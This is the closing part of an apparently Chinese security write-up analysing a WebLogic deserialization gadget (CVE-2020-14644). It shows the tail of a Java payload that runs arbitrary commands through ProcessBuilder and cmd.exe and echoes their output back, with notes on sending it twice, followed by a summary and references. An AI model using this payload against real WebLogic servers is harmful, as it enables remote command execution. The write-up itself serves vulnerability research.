 ```
                cmds.add(cmd);
            `}` else `{`
                cmds.add("cmd.exe");
                cmds.add("/c");
                cmds.add(cmd);
`}`

            ProcessBuilder processBuilder = new ProcessBuilder(cmds);
            processBuilder.redirectErrorStream(true);
Process proc = processBuilder.start();

            BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
StringBuffer sb = new StringBuffer();

            String line;
            while ((line = br.readLine()) != null) `{`
                sb.append(line).append("\n");
`}`

            return sb.toString();
        `}` catch (Exception e) `{`
            return e.getMessage();
        `}`
    `}`
`}`
```

第一次发送会报错，因为在rebind，第二次就会回显：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://tva1.sinaimg.cn/large/007S8ZIlly1ghlpgwws25j32mc0leacn.jpg)



## 0x04 总结

这是一次相对其他较简单的gadget分析，需要了解iiop，cobra，反序列化，序列化等相关知识，同时还需要了解javassist和defineClass的知识。



## 0x05 weblogic全球态势

[![](https://tva1.sinaimg.cn/large/007S8ZIlly1ghmno8999jj30vq0m8dgz.jpg)](https://tva1.sinaimg.cn/large/007S8ZIlly1ghmno8999jj30vq0m8dgz.jpg)



## 0x06 参考

[Oracle cve 2020-14644 分析利用以及回显思路](https://www.cnblogs.com/potatsoSec/p/13451993.html) [defineClass在java反序列化当中的利用](https://xz.aliyun.com/t/2272)
